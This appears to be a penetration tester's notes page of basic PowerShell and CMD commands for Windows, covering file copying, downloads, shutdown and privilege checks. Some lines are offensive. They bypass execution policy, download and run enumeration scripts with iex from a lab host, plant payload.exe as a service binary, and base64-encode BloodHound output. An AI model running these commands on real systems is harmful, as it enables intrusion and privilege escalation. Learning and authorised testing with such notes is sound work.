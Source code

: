 ```yaml
---
description: The basic of Powershell and CMD
---
```


# Basic Command

This note was created when I was not very familiar with the Windows environment. I didn't know how to restart the machine from the command line, copy files, or import PowerShell scripts, etc.

### Import Module to Powershell

```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
# or
. .\PowerView.ps1
```

### Copy command

```powershell
# copy files
copy payload.exe "C:\Program Files\Service.exe"
# copy directory name Tools to new directory "MyTools"
xcopy Tools "C:\Users\Administrator\Desktop\MyTools" /E /I
```

### Rename command

```powershell
# Rename Payload.exe to Service.exe
ren Payload.exe Service.exe
```

### Download files

{% code overflow="wrap" %}
```powershell
# CMD: certutil
certutil -urlcache -split -f https://example.com/example.txt example.txt
# Powershell: Invoke-WebRequest
iwr -Uri "http://172.16.8.1:9005/PowerView.ps1" -O "PowerView.ps1"
# Powershell: Invoke-Expression
iex ((New-Object Net.WebClient).DownloadString("http://172.16.8.1:9005/Invoke-Watson.ps1"))
```
{% endcode %}

### Download and Execute Invoke-WinPEAS

* [**Invoke-WinPEAS**](https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module\_source/privesc/Invoke-winPEAS.ps1)

{% code overflow="wrap" %}
```powershell
iex ((New-Object Net.WebClient).DownloadString("http://172.16.8.1:9005/Invoke-winPEAS.ps1"))
```
{% endcode %}

### Restart and Reboot

```powershell
 # Shutdown now
 shutdown /s /t 0 /f
 # Restart
 shutdown /r /t 0 /f
```

### Convert to Base64

{% code overflow="wrap" %}
```powershell
[convert]::ToBase64String((Get-Content -path "20230908145747_BloodHound.zip" -Encoding byte))
```
{% endcode %}

### Others

Check privileges

```
whoami /all
whoami /priv
```

Check Group List

```powershell
Get-LocalGroup
net localgroup
Get-ADGroup -filter * -properties * |select SAMAccountName, Description
```

Check group member

{% code overflow="wrap" %}
```powershell
Get-LocalGroupMember -Group "Administrators"
Get-ADGroupMember -Identity Administrators | Select-Object name, objectClass,distinguishedName
```
{% endcode %}
